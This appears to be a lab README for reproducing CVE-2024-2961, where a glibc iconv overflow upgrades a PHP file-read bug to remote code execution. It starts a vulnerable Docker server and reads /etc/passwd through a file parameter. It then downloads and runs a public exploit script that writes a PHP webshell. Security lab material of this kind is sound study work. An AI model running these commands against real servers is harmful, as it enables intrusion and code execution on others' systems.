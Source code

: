 # PHP File Read to Remote Code Execution Through GNU C Library Iconv (CVE-2024-2961)

[中文版本(Chinese version)](README.zh-cn.md)

The GNU C Library is designed to be a backwards compatible, portable, and high performance ISO C library.

The `iconv()` function in the GNU C Library versions 2.39 and older may overflow the output buffer passed to it by up to 4 bytes when converting strings to the ISO-2022-CN-EXT character set, which may be used to crash an application or overwrite a neighbouring variable.

If an arbitrary file read vulnerability in PHP application, you can upgrade it to remote code execution through the `iconv()` issue CVE-2024-2961.

References:

- <https://www.ambionics.io/blog/iconv-cve-2024-2961-p1>

## Vulnerable environment

Execute following command to start a PHP 8.3.4 server with iconv 2.36:

```
docker compose up -d
```

After the server is started, you can read the `/etc/passwd` through `http://your-ip:8080/index.php?file=/etc/passwd`.

## Exploit

Before using the [exploit](https://github.com/ambionics/cnext-exploits), you have to prepare a Linux based system and the Python 3.10+.

Install the dependencies:

```
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

Then download and run the POC from <https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py>:

```
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
```

![](1.png)

As you can see, `shell.php` has been written successfully:

![](2.png)
